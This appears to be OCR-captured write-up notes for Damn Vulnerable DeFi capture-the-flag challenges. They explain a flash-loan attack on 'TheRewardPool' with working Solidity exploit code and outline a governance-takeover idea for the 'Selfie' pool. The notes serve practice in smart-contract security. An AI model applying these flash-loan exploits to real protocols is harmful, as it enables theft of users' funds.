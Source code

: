 ```ad-note
- TheRewardPool
 -- A reward pool which used to deposit  DVT token and  give  a rewardToken
 so to get the reward token we first need to deposit DVT token and to do that we can take a flashLoan from FlashLoanerPool after taking a the flashloan we can deposit it to the TheRewardPool.deposit function and this function will mint LP token and call distributeRewards() function 
 what this function do is  first check if the 5 day is over then it will take a snapshot of Lp token  and after that it will mint the reward token based on the pervious snapshot 
 ```uint256 totalDeposits = accToken.totalSupplyAt(lastSnapshotIdForRewards);
uint256 amountDeposited = accToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);
if (amountDeposited > 0 && totalDeposits > 0) {
rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;
if(rewards > 0 && !_hasRetrievedReward(msg.sender)) {
rewardToken.mint(msg.sender, rewards);
lastRewardTimestamps[msg.sender] = block.timestamp;
}
}
``` 


 - so to get the reward token 
  - take a big DVT  flashloan  -> deposit it to the reward pool (to take a snapshot and mint the reward token to the contract)
  - withdraw the DVT token -> return the flashloan
  - and return the reward token to the msg.sender
  
 ````ad-tip
 title: code 
  function exploit(uint256 amount) external {

pool.flashLoan(amount);

}

function receiveFlashLoan(uint256 amount) external {
liquidityToken.approve(address(rewardPool), amount);
rewardPool.deposit(amount);
rewardPool.withdraw(amount);
liquidityToken.transfer(address(pool), amount);
uint256 Bal = rewardPool.rewardToken().balanceOf(address(this));
rewardPool.rewardToken().transfer(msg.sender, Bal);

}
 
````
```ad-info
title: # Challenge #6 - Selfie

A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.
```ad-note
so this challenge have two smart contracts 
- simpleGovernance
 --  This contract is a simple governance  and if you have enough governance token you can  controle the contract 
- SelfiePool
 --this contract provied a flashloan of  the governance token  and there is also another function  drianallFunds  which is only callable by  the governer contract 
 - so if we have enough  gover token to control the gov  smart contract we can  take all the token of this contract
```
